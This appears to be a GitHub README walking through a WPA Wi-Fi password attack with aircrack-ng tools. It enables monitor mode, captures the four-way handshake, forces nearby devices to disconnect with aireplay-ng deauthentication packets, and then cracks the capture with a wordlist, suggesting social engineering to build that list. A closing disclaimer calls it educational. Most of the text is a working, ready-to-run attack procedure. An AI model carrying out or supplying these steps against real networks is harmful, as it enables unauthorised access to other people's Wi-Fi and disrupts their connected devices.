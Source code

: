 # Instruction

## Link YouTube video: https://www.youtube.com/watch?v=jeImlZR2A4w

- [ ] TODO Automated Bash Script to do all the process


### Find your current interface configuration, you should use a Wi-Fi module that have embedded the monitor mode functions.


***Does my WI-FI supports monitor mode?***
---> #https://blog.rottenwifi.com/wifi-monitoring-mode/#Does_My_Wi-fi_Support_Monitor_Mode

run this command to see the available interfaces on your machine

```
$ ifconfig
```

if you want to enable an interface, use this command

```
$ ifconfig {interfaceName} up
```
In case of the video, i use the embedded wlan0 

```
$ ifconfig wlan0 up
```

Use airmon-ng start wlan0 to enable monitor mode on the wireless interface

```
$ airmon-ng start wlan0
```

Once it's enable run the command to monitor all the Wi-Fi signal nearby, ***wlan0*** will become wlan0mon due to the previous command

```
$airodump-ng wlan0mon 
```

Choose a connection that you want to try

***I suggest to use meanwhile all the process a file, in which you save notes during all the process, this will be helpful for the next steps.***

Create a directory, in which you will save the file.cap that will be generated during the dumps.

```
$ mkdir /....
```

Run the command below from the folder previous created to start sniffing the connection. 
The aim is to find a four handshake made by the modem, when a device disconnects himself from the Wi-Fi or request a new authentication or other reason due to the connection standards.
The command to run contains various option.

Below the command and some details regarding it:

```
$ airodump-ng wlan0mon -c 10 --bssid {MAC_ADDRESS} -w ./..{crack.cap}
```

***A brief description of the option:***

```
-c  indicates the channel trasmission of the modem

-bssid  indicates the Basic Service Set Identifier

-w indicates the location to write the files
```

Now we have to wait until a device will request a deauth

Boring? 

There is a command to speed up this waiting, simulating a deauth from one device connected to the current target modem.

```
$ aireplay-ng -0 18 -a {MAC_ADDRESS} -c {MAC_ADDRESS} wlan0mon
```

***A brief description of the option***

```
-0 indicates the number of the deauth tempatives packets 
-a MAC_ADDRESS of the modem
-c MAC_ADDRESS of the device to imperson for the deauth
```

If we are lucky, there will be a line outputted on the logs from the command airdump (running on background).

*** Example ***

```
WPA handshake: {MAC_ADDRESS}
```

Finally, it's time to crack

utilizing the file {name}.cap generated from the airdump command, we run the command

```
aircrack-ng -a2 -b {MAC_ADDRESS} -w {wordListPasswordFile} {name}.cap 
```

***The major difficulty could be guessing the right password, if we use some social engineering we can build a small list of password word to brute force. Moreover, we can go with big files, maybe we will find the password or not (In this case is trivial to chose a complex password, so it will be very, very difficult to hack***




 
## Disclaimer: Hacking without permission is illegal. This repo is strictly educational for learning about cyber-security in the areas of ethical hacking and penetration testing so that we can protect ourselves against the real hackers.
